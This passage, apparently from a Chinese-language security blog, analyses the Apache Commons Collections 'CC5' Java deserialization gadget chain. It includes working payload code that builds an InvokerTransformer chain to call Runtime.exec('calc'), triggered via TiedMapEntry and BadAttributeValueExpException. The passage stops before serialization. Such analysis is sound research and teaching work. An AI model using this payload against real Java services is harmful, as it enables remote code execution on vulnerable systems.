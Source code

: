 接下来在`org.apache.commons.collections.keyvalue.TiedMapEntry#getValue`中调用了`LazyMap`的`get()`方法

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/8c054e5e-edc2-18f4-f1e8-5c0d9de05da3.png)

其中`getValue()`调用了`map.get()`方法，而`toString()`调用了`this.getValue()`，而其中`this.key`可控

可以构造出以下代码

```
HashMap hashMap = new HashMap();
Map map = LazyMap.decorate(hashMap, chain);
// map.get("test");
TiedMapEntry key = new TiedMapEntry(map, "key");
key.toString();	// toString > getValue() > map.get()
```


接下来就应该去找哪个类会去自动触发`toString()`，而在jdk内置类中有一个`BadAttributeValueExpException`异常类，其`readObject（）`会执行`toString()`，这样整条链子就齐了

![7.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/ba0187ff-e428-8897-0891-687687945f99.png)

![8.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/c5791207-f743-442e-a8b4-a76c4d51cd60.png)

其中`System.getSecurityManager() == null`默认成立，因此`toString()`一定会触发，payload如下

```
package payload;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

class CommonsCollections5 {

    public static void main(String[] args) throws Exception {
//        ((Runtime) Runtime.class.getMethod("getRuntime").invoke(null)).exec("calc");
        Transformer[] transformers = new Transformer[]{
                // 传入Runtime类
                new ConstantTransformer(Runtime.class),
                // 使用Runtime.class.getMethod()反射调用Runtime.getRuntime()
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                // invoke()调用Runtime.class.getMethod("getRuntime").invoke(null)
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                // 调用exec("calc")
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);
//        chain.transform(null);
        HashMap hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chain);
//        map.get("asd");
        TiedMapEntry key = new TiedMapEntry(map, "key");
//        key.toString();

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
```